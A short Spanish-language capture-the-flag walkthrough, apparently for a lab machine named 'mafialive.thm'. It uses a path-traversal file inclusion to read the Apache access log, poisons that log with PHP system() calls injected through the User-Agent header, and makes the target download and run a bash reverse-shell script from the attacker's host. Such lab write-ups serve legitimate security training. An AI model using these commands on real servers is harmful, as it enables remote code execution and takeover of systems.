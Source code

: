 Una máquina con esta vulnerabilidad en esta ruta:
```python
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././../././var/log/apache2/access.log
```
Podemos intentar hacer un log poisoning, de tal forma que si probamos en ejecutar una petición con curl podemos inyectar texto dentro del apartado del user agent:
```bash
curl -s -X GET 'http://mafialive.thm' -H 'User-Agent:Pruebas'
```
Dentro del user-agent inyectamos un código php malicioso para ejecutar comandos, veremos que funciona:
```bash
curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('whoami'); ?>"
```
Creamos un fichero pwned.sh
```bash
#!/bin/bash
bash -i >& /dev/tcp/<IP>/PORT 0>&1
```
Y lo compartimos con un servidor python:
```python
python3 -m http.server 80
```
ahora ejecutamos el comando wget para obtener este archivo y después bash pwned.sh para ejecutarlo y recibir la reverse shell:
```bash
curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('wget http://10.8.100.91/pwned.sh'); ?>"

curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('chmod 777 pwned.sh'); ?>"

curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('bash pwned.sh'); ?>"
```
Una vez ejecutado lo anterior, refrescamos y habremos recibido la reverse shell